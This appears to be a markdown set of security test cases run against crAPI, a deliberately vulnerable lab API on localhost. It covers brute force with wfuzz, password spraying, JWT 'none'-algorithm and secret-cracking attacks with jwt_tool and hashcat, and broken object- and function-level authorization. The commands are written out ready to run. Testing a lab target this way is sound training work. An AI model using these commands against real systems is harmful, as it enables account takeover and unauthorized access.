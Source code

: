> # Authentication Attacks
>
> ## TC#01 Brute force
>
>> ### 'Should be able to brute force the login page with huge wordlists'
>
> Preconditions:
>
> Install mentalist: https://github.com/sc0tfree/mentalist/wiki/Installation#linux-apt-package-manager
> Install cupp: https://github.com/Mebus/cupp
>
>
> Steps:
```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
```
> Expected result:
> 
> 1. Should able to find correct usernames and passwords
> 
------------------------------------------------------------------------------------------
>
> ## TC#02 Password Spraying
>
>> ### 'Use Password Spraying to login page with short wordlists and weak passwords'
>
> Preconditions:
> 
> 1. Save the response containing an excessive data exposure as "response.json".
> 2. Pull emails from the saved JSON response and save as crapiusers file
```
grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json > crapiusers
```
> 3. Sort unique emails and save as crapiuniq file
```
cat crapiusers | sort -u > crapiuniq
```
> 4. Create passwords short list
```
Password1
Password3
Password123
Crapi123
Summer2022! 
Spring2022! 
March212006!
Fall2021!
12345Qwert!
Dorsey@2022
``` 
>
> Steps:
> 
> 1. Burp suite: clusterbomb
> 2. Set up users and passwords lists
> 3. Run
> 4. Payload Processing: base64-encode
> 5. Ctrl-shift-b -> right click -> convert selection -> base 64 decode
>
> Expected result:
> 
> 1. Should able to find correct password
> 
------------------------------------------------------------------------------------------
>
> # Api Token Attacks
>
> ## TC#03 JWT Attacks
>
>> ### 'Password Spraying to login page with short wordlists and weak passwords'
>
> Preconditions:
> 
> Analyze JWT token
> 1. Intercept request in burp suite
> 2. Open in Sequencer
> Click on Configure and highlight the token value
> 3. Click "Start Live Capture"
> ![Burp Suite Sequencer](/docs/token_analysis/Sequencer.png "Sequencer screenshot")
>
> 4. Use jwt_tools to analyze:
>
> ![jwt_tools](/docs/token_analysis/jwt_tool.png "jwt_tool screenshot")
>
>
> Steps:
> 1. Automating JWT attacks
> Use JWT automated tool (jwt_tools)
```
jwt_tool -t http://127.0.0.1:8888/identity/api/v2/user/dashboard -rh "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9....2QKV-qv72Q" -M pb
```
> Change Algorithm value to "none":
```
jwt_tool eyJhbGciOiJ....dWIip6Ym2QKV_-qv72Q -X a
```
> 2. JWT Crack Attack
> Generate wordlist:
```
crunch 5 5 -o crapi.txt
```
> Run jwt_tools to find secret key
```
jwt_tool eyJhbGciOiJSUzI1NiJ9....2QKV-qv72Q -C -d crapis.txt
``` 
> Or run hashcat to crack secret sign
```
hashcat -a 0 -m 16500 eyJhbGyKcjHKjhw....akjF46xCpioGU0 /home/lizard/Downloads/rockyou.txt --show
```
>
> Expected result:
> 
> 1. Should able to find the secret key
> 
------------------------------------------------------------------------------------------
>
> # BOLA
>
> ## TC#01 Broken Object Level Authorization 
>
>> ### 'User should access the restricted page of another user using id parameter'
>
> Scope:
>
```
GET /identity/api/v2/videos/:id?video_id={value}`
GET /community/api/v2/community/posts/{value}`
GET /identity/api/v2/vehicle/{value}/location`
```
>
> Test Data:
> 1. name: UserA; email: userA@test.com; phone: 0112233445
> 2. name: UserB; email: userB@test.com; phone: 0112233446
>
> Steps:
>
> 1. Create a UserA account.
> 2. Use the API and discover requests that involve resource IDs as UserA.
> 3. Document requests that include resource IDs and should require authorization.
> 4. Create a UserB account.
> 5. Obtaining a valid UserB token and attempt to access UserA's resources.

>
> Expected result:
> 
> 1. UserB Should be access for userA page using id parameter
> 
------------------------------------------------------------------------------------------
>
> # BFLA
>
> ## TC#01 Broken Function Level Authorization 
>
>> ### 'Another user shouldn't be able to edit the content of another user using id'
>
> Scope:
>
```
POST /workshop/api/shop/orders/return_order?order_id={id}
POST /community/api/v2/community/posts/{id}/comment
PUT /identity/api/v2/user/videos/{id}
DELETE /identity/api/v2/user/videos/{id}
```
>
> Test Data:
> 1. name: UserA; email: userA@test.com; phone: 0112233445
> 2. name: UserB; email: userB@test.com; phone: 0112233446
>
> Steps:
>
> 1. Create a UserA account.
> 2. Add new order/post new comment/upload the video on profile page
> 3. Document requests that include resource IDs and should require authorization.
> 4. Create a UserB account.
> 5. Return order/post comment/edit video name of UserA id-content in scope.
> 6. Change the value 'user' to 'admin' in url
> 7. Delete the video of UserA
>
>
> Expected result:
> 
> 1. User Shouldn't be able to edit content on another user's page; 
> 
------------------------------------------------------------------------------------------